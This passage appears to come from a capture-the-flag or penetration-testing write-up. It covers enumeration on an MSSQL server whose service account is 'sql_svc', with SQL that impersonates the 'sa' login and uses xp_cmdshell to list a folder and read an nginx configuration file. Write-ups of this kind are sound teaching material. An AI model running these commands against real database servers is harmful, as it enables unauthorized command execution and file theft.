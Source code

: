 We've obtained another info: the service account that run the MSSQL is `sql_svc`.



Go futher with enumeration:

```sql
EXECUTE AS LOGIN = 'sa';
EXEC xp_cmdshell "dir C:\Users\Public\Downloads";
REVERT
```



<figure><img src="../../.gitbook/assets/image (794).png" alt=""><figcaption></figcaption></figure>

```sql
EXECUTE AS LOGIN = 'sa';
EXEC xp_cmdshell 'type "C:\nginx\sites-enabled\freelancer.conf"';
REVERT
```
